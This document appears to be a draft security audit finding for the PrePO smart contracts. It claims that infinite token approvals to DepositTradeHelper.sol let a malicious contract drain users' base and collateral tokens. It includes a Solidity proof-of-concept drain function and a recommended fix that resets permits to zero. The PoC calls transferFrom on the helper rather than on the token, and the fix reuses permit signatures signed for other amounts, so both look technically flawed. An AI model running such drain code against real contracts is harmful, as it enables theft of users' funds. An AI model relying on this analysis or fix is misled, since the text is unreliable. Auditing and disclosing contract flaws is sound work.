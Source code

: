 # PrePO draft findings

---

## Finding 1

`DepositTradeHelper.sol`

_Issue_

- account has infinite approval to spend baseTokens & collateralTokens of user

- these permissions could be misused by a malicious contract that can call a low level function `transferFrom` and drain baseTokens and preCT collateral tokens of user

_Proof of Concept_

- Assuming a malicious contract knows the public address of an account that gave infinite approval to `DepositTradeHelper.sol`

- by passing in malicious low level call, we can capture the funds. Same logic for collateral token

```

    function exploit(address depositHelper, address token, address depositor) external {

        IERC20 tokenContract = IERC20(token);

        uint256 balance = tokenContract.balanceOf(depositor);

        if(balance > 0){
           (bool success, ) = depositHelper.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", depositor, address(this), balance  ));
           require(success, "transfer failed");
        }
    }
```

_Recommendation_

Right after the swapRouter completes the swap - make the approvals for the contract 0

```
    ISwapRouter.ExactInputSingleParams memory exactInputSingleParams = ISwapRouter.ExactInputSingleParams(address(_collateral), tradeParams.tokenOut, POOL_FEE_TIER, msg.sender, tradeParams.deadline, _collateralAmountMinted, tradeParams.amountOutMinimum, tradeParams.sqrtPriceLimitX96);

    _swapRouter.exactInputSingle(exactInputSingleParams); // amountOut output is not used

    // At this stage, make approvals go to zero

    if (baseTokenPermit.deadline != 0) {
      IERC20Permit(address(_baseToken)).permit(msg.sender, address(this), 0, baseTokenPermit.deadline, baseTokenPermit.v, baseTokenPermit.r, baseTokenPermit.s);
    }

    if (collateralPermit.deadline != 0) {
      _collateral.permit(msg.sender, address(this), 0, collateralPermit.deadline, collateralPermit.v, collateralPermit.r, collateralPermit.s);
    }
```

---